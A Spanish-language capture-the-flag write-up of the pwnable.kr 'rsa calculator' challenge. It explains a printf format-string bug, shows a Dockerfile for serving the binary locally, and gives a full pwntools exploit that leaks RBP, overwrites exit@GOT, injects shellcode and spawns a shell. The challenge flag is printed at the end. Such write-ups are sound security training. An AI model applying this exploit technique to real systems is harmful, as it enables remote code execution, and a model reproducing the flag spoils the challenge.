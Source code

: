 # rsa calculator

<img width="137" height="176" alt="rsa calculator" src="https://github.com/user-attachments/assets/c3ba1dbd-3402-4352-962d-2716f81157e8" />


```
 checksec rsa_calculator
[*] '/home/kalcast/Laboratorio/crypto/rsa_calculator'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
```

## Introduccion

Podemos observar que el stack es ejecutable. Escribiremos shellcode en una direccion de la pila y redirigiremos el flujo de ejecucion alli para invocar una shell.

Las funciones que nos interesan son `RSA_encrypt` y `RSA_decrypt`, pero primero tenemos que llamar a `set_key_pair` para crear un par de claves RSA.

Esta funcion tiene una comprobacion inusual que hace el cifrado practicamente inutil (no voy a empezar a escribir aritmetica modular aqui). Despues hay otra comprobacion sobre el tamaño de n:

<img width="403" height="158" alt="2025-08-05-212610_403x158_scrot" src="https://github.com/user-attachments/assets/11a49e3a-5a74-40f3-8a95-612d47fc0cde" />

Una combinacion que funciona puede ser `p=10000, q=10000, e=1, d=1`.

Si encriptas un mensaje observas que el programa en la practica lo que hace es codificar en hexadecimal y extender el `byte` a un `int`.

La implementacion de este programa tiene varios bugs pero lo mas util es la vulnerabilidad de cadena formateada en `printf(g_ebuf)` y `printf(g_pbuf)` en `RSA_encrypt` y `RSA_decrypt` respectivamente.

## Explotacion
Objetivo: Sobreescribir la entrada de `exit` en la GOT por una direccion en el stack donde almacenamos shellcode.

#### Paso 1: Filtrar RBP
Para esto hay que construir el Dockefile. Cambié el script de perl por `socat` para servir el binario:
``` Dockerfile

FROM ubuntu:16.04

RUN dpkg --add-architecture i386 && \
    apt update && \
    apt install -y gcc-multilib libc6:i386 libssl1.0.0:i386 lib32stdc++6 lib32z1 gdb file net-tools socat

RUN useradd -u 1128 -m rsa_calculator_pwn

COPY rsa_calculator /home/rsa_calculator_pwn/rsa_calculator
COPY flag /home/rsa_calculator_pwn/flag

RUN chown root:rsa_calculator_pwn /home/rsa_calculator_pwn/rsa_calculator /home/rsa_calculator_pwn/flag
RUN chmod 550 /home/rsa_calculator_pwn/rsa_calculator
RUN chmod 440 /home/rsa_calculator_pwn/flag

USER rsa_calculator_pwn
WORKDIR /home

CMD ["socat", "TCP-LISTEN:1337,reuseaddr,fork", "EXEC:/home/rsa_calculator_pwn/rsa_calculator,pty,stderr"]
```

Usando gdb encontre un puntero a `RBP+0x100` en esta direccion:

<img width="807" height="466" alt="2025-08-05-214228_807x466_scrot" src="https://github.com/user-attachments/assets/745b9ec1-0db8-4e20-8aea-72d40f2cf686" />

#### Paso 2: Hallar el offset con respecto a RBP de la direccion del shellcode
Cuando llamamos a `RSA_encrypt` se almacena en el stack la entrada de usuario.

Luego si se llama a `RSA_decrypt`, si nuestro mensaje codificado no es muy largo, **la entrada anterior (el texto plano)** se mantiene en el stack**.

El inicio es en `RBP-0x410`:

<img width="957" height="645" alt="2025-08-05-211630_957x645_scrot" src="https://github.com/user-attachments/assets/ae47e856-ba9f-43d5-9978-2e115511c7e1" />

El exploit: 

```py
from pwn import *

elf = context.binary = ELF("./rsa_calculator")
r = remote("pwnable.kr",9012)

def generate_key_pair():
    # Hardocoded
    return {'p': 10000, 'q': 10000, 'e': 1, 'd': 1}

def set_key_pair():
    keys = generate_key_pair()
    r.sendline(b"1")
    r.sendline(str(keys["p"]).encode())
    r.sendline(str(keys["q"]).encode())
    r.sendline(str(keys["e"]).encode())
    r.sendline(str(keys["d"]).encode())

def encrypt(msg):
    r.sendline(b"2")
    r.sendline(str(len(msg)).encode())
    r.sendline(msg)
    r.recvuntil(b" (hex encoded) -\n")
    return r.recvline().strip()

def decrypt(l, hexdata):
    r.sendline(b"3")
    r.sendline(str(l*8).encode())
    r.sendline(hexdata)
    r.recvuntil(b"result -\n")
    return r.recvline().strip()

def write_short(offset,write):
    payload = fmtstr_payload(offset,write,write_size="short",write_size_max="short")
    hexdata = encrypt(payload)
    decrypt(len(payload),hexdata)

set_key_pair()

# Leak rbp
fstring = b"%219$p"
hexdata = encrypt(fstring)
output = decrypt(len(fstring),hexdata)
rbp = int(output[:14],16) - 0x100
sh_addr = rbp - 0x410
log.success("RBP leaked: " + hex(rbp))

# Overwrite exit@GOT
write_short(76,{0x602068: (sh_addr) & 0xFFFF})
write_short(76,{0x602068 + 2: (sh_addr >> 16) & 0xFFFF})
write_short(76,{0x602068 + 4: (sh_addr >> 32) & 0xFFFF})

# Write shellcode
shellcode = asm(shellcraft.sh())
hexdata = encrypt(shellcode)
decrypt(len(shellcode),hexdata)

# Shell
r.sendline(b"5")
r.interactive()
```

`w4at_a_buggy_RS4_c4lculat0r`

